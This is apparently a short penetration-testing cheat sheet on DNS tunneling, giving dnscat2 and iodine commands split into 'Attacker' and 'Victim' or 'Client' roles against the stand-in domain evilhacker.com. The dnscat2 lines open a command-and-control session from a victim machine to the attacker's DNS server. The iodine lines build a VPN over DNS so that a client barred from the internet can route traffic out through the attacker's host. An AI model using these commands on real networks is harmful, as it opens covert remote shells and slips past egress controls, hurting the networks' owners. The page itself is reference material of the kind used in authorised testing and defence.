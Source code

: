 # DNS Tunneling

{% embed url="https://github.com/mosajjal/dnspot" %}

## Dnscat2

```
# Attacker
sudo dnscat2-server --dns domain=evilhacker.com

# Victim
dnscat2 --dns domain=evilhacker.com
```

### Commands

```
# Attacker
window -i 1

help
```

## Iodine

```
# Attacker
sudo iodined 192.168.100.1 evilhacker.com -P password1

# Client (Not allowed to access internet)
# Creating a layer 3 vpn tunnel
sudo iodine evilhacker.com -P password1

sudo route add -net 0.0.0.0/0 gw 192.168.100.1 dns0

# now ping using the client machine
ping google.com

SUCCESS!
```

## References

* [https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
* [https://github.com/yarrick/iodine](https://github.com/yarrick/iodine)
